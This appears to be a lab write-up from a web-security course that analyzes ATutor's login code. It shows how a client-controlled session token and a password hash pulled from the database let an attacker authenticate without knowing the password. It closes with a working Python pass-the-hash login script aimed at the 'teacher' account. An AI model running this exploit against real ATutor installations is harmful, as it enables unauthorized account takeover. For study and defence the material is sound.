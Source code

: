 ## Analyzing The Authentication Mechanism
Now, that we can exfiltrate data from the database, we can use our script to exfiltrate user password hashes and crack them to get clear text passwords.
However, we need to find a more convenient way to bypass the authentication mechanism to get authenticated to the web application.

We can start off buy capturing a login request from the atutor web application:

![](../../03.%20Images/t1-ss28.png)

First thing that we notice is, ne of the parameters passed to the server for authentication is form_password_hidden, which appears to hold the password hash.
This supports the assumption that there's no clear text password and only a password hash.

The values do not match, to the hashed value in the database, meaning further processing of the user-controlled data is taking place prior to authentication.
In order to understand what's going on, we can move to login.php and understand what's going on.

![](../../03.%20Images/t1-ss29.png)

The file points us to login_functions.inc.php
We head to the file and start to analyze it.

One thing that catches our eye is following:

![](../../03.%20Images/t1-ss30.png)

If the POST token variable is set, then then it is used to set the SESSION token variable.
Session tokens are always an interesting item to keep track of as they are used in unexpected ways at times.

Analyzing further:

![](../../03.%20Images/t1-ss31.png)

We see that if we're not using coookie based authentication, the code falls throught the _else if_ branch, where it has to variables that are user controlled i.e. $this_password and $this_login. We can cross-check this by analyizing our previously burp captured request.

Next, in the code we come closer to the main login function, we arrive at the point where the code builds the sql query.

![](../../03.%20Images/t1-ss32.png)

We see that the addslashes function is in place(even though it is not working as we discussed in the previous section).
But this time, the queryDB function has been used correctly, thus an sql injection will not be possible.

Reading the code further, we see the main login query being formed as follows:
```php
} else {
	$row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences, language, status, password AS pass, last_login FROM %smembers WHERE (login='%s' OR email='%s') AND SHA1(CONCAT(password, '%s'))='%s'", array(TABLE_PREFIX, $this_login, $this_login, $_SESSION['token'], $this_password), TRUE);
		}

//Breaking down the main parts of the code, it looks like so:

...AND SHA1(CONCAT(password, $_SESSION['token']))=$this_password;
```

We know that, we can control the session token. And also, $this_password variable is controlled by us.
The only unknown parameter, is password, which we can extract from the database from the previous vulnerability.

If this query is satisfied, then we fall to the next part of the code where the authentication happens and we're logged in:

![](../../03.%20Images/t1-ss33.png)

## Exploiting The Authentication Mechanism
With a few updates in our script we now have our hands on the login hash for the teacher user.

Now, we need to calculate how the POST form_password_hidden variable is being set.
This can be easily calculated by visiting the following files:
```path
ATutor/themes/simplified_desktop/login.tmpl.php
ATutor/themes/simplified_desktop/registration.tmpl.php
```

The code that encrpyts the password is following:
```php
function encrypt_password() {
        document.form.form_password_hidden.value = hex_sha1(hex_sha1(document.form.form_password.value) + "<?php echo $_SESSION['token']; ?>");
        document.form.form_password.value = "";
        return true;

```

To recreate this we can simply create a python function that encrypts our hash with the following code:

```python
import sys, hashlib, requests

def gen_hash(passwd, token):
	m = hashlib.sha1()
	m.update(passwd + token)
	return m.hexdigest()

def we_can_login_with_a_hash():
    target = "http://%s/ATutor/login.php" % sys.argv[1]
    token = "hax"
    hashed = gen_hash(sys.argv[2], token)
    d = {
        "form_password_hidden" : hashed,
        "form_login": "teacher",
        "submit": "Login",
        "token" : token
    }
    s = requests.Session()
    r = s.post(target, data=d)
    res = r.text
    if "Create Course: My Start Page" in res or "My Courses: My Start Page" in res:
        return True
    return False

def main():
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <hash>" % sys.argv[0]
        print "(+) eg: %s 192.168.121.103 56b11a0603c7b7b8b4f06918e1bb5378ccd481cc" % sys.argv[0]
        sys.exit(-1)
    if we_can_login_with_a_hash():
        print "(+) success!"
    else:
        print "(-) failure!"

if __name__ == "__main__":
    main()

```

Running the script we get a successful login:

![](../../03.%20Images/t1-ss34.png)